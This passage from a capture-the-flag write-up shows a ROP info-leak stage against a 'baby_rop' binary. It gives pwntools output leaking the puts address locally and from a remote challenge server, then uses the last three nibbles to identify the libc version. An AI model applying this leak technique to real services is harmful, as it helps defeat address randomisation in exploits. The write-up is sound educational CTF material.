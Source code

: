 Running the program outputs an address and prints the intro text a second time (thus letting me input another string):

{% highlight auto %}
$ python leak_puts.py 
[+] Starting program './pwn_baby_rop': Done
[*] puts address: 0x7fa0f72c79c0
[*] Switching to interactive mode
Solve this challenge to prove your understanding to black magic.
$ henlo
[*] Got EOF while reading in interactive
$
{% endhighlight %}

It worked! How do I know that? Well, take a look at the command below:

{% highlight auto %}
$ objdump -D /lib/x86_64-linux-gnu/libc.so.6  | grep "<_IO_puts@@GLIBC_2.2.5>"
00000000000809c0 <_IO_puts@@GLIBC_2.2.5>:
{% endhighlight %}

In my LIBC version, the address of puts ends with 9c0. When the binary is loaded, the base address always ends in 000, so the address of puts will be something ending in 9c0 for my LIBC. However, there are multiple versions of LIBC, each with its different offsets. In order to find the one the remote program uses, we need to leak the remote program's puts@GLIBC address. We can do that by simply chainging

{% highlight python %}
io = process("./pwn_baby_rop")
{% endhighlight %}

to 

{% highlight python %}
io = remote("34.89.143.158", 31042)
{% endhighlight %}

I got the IP address and port from my CyberEDU dashboard. The program returns a completely different address:

{% highlight bash %}
$ python leak_puts_remote.py 
[+] Opening connection to 34.89.143.158 on port 31042: Done
[*] puts address: 0x7f2a455d15a0
[*] Switching to interactive mode
Solve this challenge to prove your understanding to black magic.
$ 
[*] Interrupted
[*] Closed connection to 34.89.143.158 port 31042
{% endhighlight %}

I used [this tool](https://libc.nullbyte.cat/?q=_IO_puts%3A5a0) to find the potential versions of libc based on the last 3 nibbles of the address. The following results were shown:

![LIBC Search Matches](/images/baby_rop/libc-matches.png)
